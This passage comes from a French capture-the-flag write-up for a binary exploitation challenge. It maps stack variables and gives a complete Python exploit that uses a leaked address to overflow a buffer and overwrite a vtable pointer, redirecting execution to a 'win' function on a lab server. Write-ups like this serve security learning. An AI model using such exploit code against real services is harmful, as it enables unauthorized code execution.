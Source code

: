 Il y a 172 octets réservés. Après rapprochement du code assembleur et du code C on a la répartition suivante :  

```plain
socket   => ebp-8
reqObj   => ebp-28
retValue => ebp-29
reqLen   => ebp-32
recvLen  => ebp-36 *
reqData  => ebp-164
```

On va envoyer un payload suffisamment grand pour écraser les variables jusqu'à *reqObj* en prenant soin de ne pas toucher à la socket qui va nous envoyer le flag :p  

Puisque l'adresse de *recvLen* est leakée par le programme il suffit seulement de faire quelques soustractions pour déterminer l'adresse de notre buffer et le structurer comme il faut.  

```python
import socket
import re
import struct

sock = socket.socket()
print "Connecting..."
sock.connect(('192.168.1.64', 21320))
sock.send("\x00\x00")
buff = sock.recv(64)  # Got request size...

address = int(re.search(r"\d+", buff).group(0))
if "-" in buff:
    address = 2**32 - address
print "Address of recvLen is", hex(address)

win = 0x080490e1
reqData = address - 128
vtable = reqData + 8

payload =  struct.pack("I", vtable)
payload += struct.pack("I", 0)
payload += struct.pack("I", win)
payload += struct.pack("I", win)
payload += struct.pack("I", win)
payload += struct.pack("I", win)
for i in range(28):
    payload += struct.pack("I", 0xdeadbeef)
payload += struct.pack("I", reqData)
payload += struct.pack("I", reqData)
print "Sending payload..."

sock.send(payload)
buff = sock.recv(1024)
print buff
sock.close()
```

